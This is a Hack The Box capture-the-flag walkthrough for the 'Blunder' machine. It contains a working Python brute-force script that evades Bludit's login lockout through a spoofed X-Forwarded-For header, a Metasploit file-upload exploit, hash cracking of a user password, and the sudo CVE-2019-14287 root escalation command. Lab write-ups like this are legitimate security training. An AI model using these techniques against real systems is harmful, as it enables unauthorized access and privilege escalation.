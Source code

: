 # Blunder
![alt text](https://www.hackthebox.eu/storage/avatars/6437ea67350beceeb5c313f386bd1abe_thumb.png)
Hack the Box, Blunder
Easy, Linux, 20 Points

# Reconnaisance
  - Nmap

    ```bash
    nmap -A -T5 -oN nmap.txt -vv 10.10.10.191

    # Nmap 7.60 scan initiated Wed Jun  3 23:28:58 2020 as: nmap -A -T5 -oN nmap.txt -vv 10.10.10.191
    Increasing send delay for 10.10.10.191 from 0 to 5 due to 11 out of 20 dropped probes since last increase.
    Nmap scan report for 10.10.10.191
    Host is up, received syn-ack (0.21s latency).
    Scanned at 2020-06-03 23:28:58 +08 for 187s
    Not shown: 998 filtered ports
    Reason: 998 no-responses
    PORT   STATE  SERVICE REASON       VERSION
    21/tcp closed ftp     conn-refused
    80/tcp open   http    syn-ack      Apache httpd 2.4.41 ((Ubuntu))
    |_http-generator: Blunder
    | http-methods: 
    |_  Supported Methods: POST
    |_http-title: Blunder | A blunder of interesting facts
    
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Jun  3 23:32:05 2020 -- 1 IP address (1 host up) scanned in 186.94 seconds

    ```
# Website Enum
  - Gobuster
  
    ```
    gobuster -u http://10.10.10.191/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt' -x php,html,txt
    /admin
    /todo.txt
    ```
    Note Found in /todo.txt
    ```
    -Update the CMS
    -Turn off FTP - DONE
    -Remove old users - DONE
    -Inform fergus that the new blog needs images - PENDING
    ```
    From the note, we have user 'fergus' mentioned.
    Login page found in /admin
    Generate Password wordlist from the website using cewl
    ```bash
    cewl -d 10 -m 8 -w wordlist http://10.10.10.191
    ```
    bruteforce the login using this [script](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) as reference
    here is my working script
    ```python
    #!/bin/python
    
    import re
    import requests
    #import http.client 
    host = 'http://10.10.10.191'
    login_url = host + '/admin/'
    username = 'fergus'
    wordlist = []
    
    file = open('wordlist','r')
    for word in file:
        wordlist.append(word)
    
    
    for password in wordlist:
        session = requests.Session()
        login_page = session.get(login_url)
        try:
            csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
        except:
            csrf_token = None
        print('[*] Trying: {p}'.format(p = password))
        #http.client._is_legal_header_name = re.compile(rb'[^\s][^:\r\n]*').fullmatch
        headers = {
            'X-Forwarded-For': password.strip(),
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
            'Referer': login_url
        }
    
        data = {
            'tokenCSRF': csrf_token,
            'username': username,
            'password': password.strip(),
            'save': ''
        }
    
        login_result = session.post(login_url, headers = headers, data = data, allow_redirects = True)
    
        #print(login_result.text)
        if '/admin/dashboard' in login_result.text:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
    ```



# User Access

to gain user access, we need to exploit bludit's arbitrary file upload vulnerability.
here i'm using metasploit, but it can also be done by using the php exploit.
here is the [link](https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec) to the rapid7 website regarding the module that will be used.

![alt text](https://i.imgur.com/X2hdtiF.png)
after getting shell as www-data, we can try to enumerate the website deployment directory to find the passwordhash of the user 'hugo'.

Inside 
    ```
    /var/www/bludit-3.10.0a/bl-content/databases    
    ```
we can find "users.php" that contains the hash of user 'hugo'

![alt text](https://i.imgur.com/cFUhSOs.png)

we can try to analyze the hash in this [website](https://www.tunnelsup.com/hash-analyzer/) and turns out that the hash is actually SHA1. Then we can try to crack it online. i found this [website](https://md5decrypt.net/en/Sha1/) worked.

after getting the password, We can su to hugo and get the user flag inside hugo's homme directory.

![alt text](https://i.imgur.com/LxyFvDM.png)

# Privilege Escalation

Since we have the password of hugo already, we can try to execute 
    ``` 
    $ sudo -l
    ```
this will return the sudo privilege of the user 'hugo'

    
    Matching Defaults entries for hugo on blunder:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User hugo may run the following commands on blunder:
        (ALL, !root) /bin/bash
    

From the result above, we can see that this machine may vulnerable to the famous vulnerability sudo that can help user escalate privilege by passing unisgned user id. You can read the details [here](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287)

we can exploit it with a simple command. Since the sudo can work with bash, so we can try to execute
    ```
    $ sudo -u#-1 /bin/bash
    ```
from that simple command we can directly get a root shell
![alt text](https://i.imgur.com/I8r0HzY.png)

